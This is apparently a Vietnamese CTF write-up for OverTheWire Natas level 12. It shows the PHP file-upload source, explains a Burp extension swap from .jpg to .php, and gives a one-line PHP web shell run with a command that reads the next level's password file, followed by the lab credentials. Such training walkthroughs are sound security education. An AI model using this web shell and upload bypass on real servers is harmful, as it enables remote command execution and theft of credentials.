



# Natas Level 12

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas12.natas.labs.overthewire.org**     
**Credential: natas12:*yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    


1. Xem source code:    

```PHP
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
?>
```

==> Đây là web có chức năng upload file và đồng thời mọi file upload lên đều được chuyển hết thành đuôi ```.jpeg``` với dòng:   
```HTML
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
```

-Khi thử upload 1 file ```tus.php``` để thử nghiệm:   


-Ta thử dùng Burp đổi extension từ ```n8n0jaz6rl.jpg``` thành ```n8n0jaz6rl.php``` xem:   



==>File upload thành công

==>Giờ ta đổi nội dung file php thành ```<?php echo system($_GET['x']); ?>``` sau đó redirect tới ```/upload/file_name.php?x=cat /etc/natas_webpass/natas13``` để lấy password

## 📌 Key: ```trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC```